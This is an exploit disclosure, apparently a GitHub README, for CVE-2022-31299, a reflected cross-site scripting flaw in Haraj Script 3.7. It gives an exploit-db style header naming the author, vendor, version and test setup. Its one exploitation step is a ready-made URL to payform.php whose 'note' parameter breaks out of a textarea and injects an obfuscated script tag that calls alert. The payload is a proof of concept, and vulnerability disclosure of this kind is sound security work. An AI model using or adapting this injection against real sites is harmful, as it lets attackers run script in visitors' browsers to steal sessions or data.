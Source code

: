 # CVE-2022-31299
Haraj Script 3.7 - Reflected XSS

#### Exploit Title: Haraj Script 3.7 - Reflected XSS
#### Date: 2022-06-13
#### CVE: CVE-2022-31299
#### Exploit Author: Abdulaziz Saad (@b4zb0z)
#### Vendor Homepage: https://angtech.org/
#### Software Link: https://angtech.org/product/view/3
#### Version: 3.7
#### Tested on: LAMP, Ubuntu

---

[#] Exploitation :
	`https://localhost/harajnext/payform.php?type=upgrade&upgradeid=1&upgradegd=6&price=123&t=1&note=%3C/textarea%3E%3Cscript%3Ealert(String.fromCharCode(98,52,122,98,48,122))%3C/script%3E`
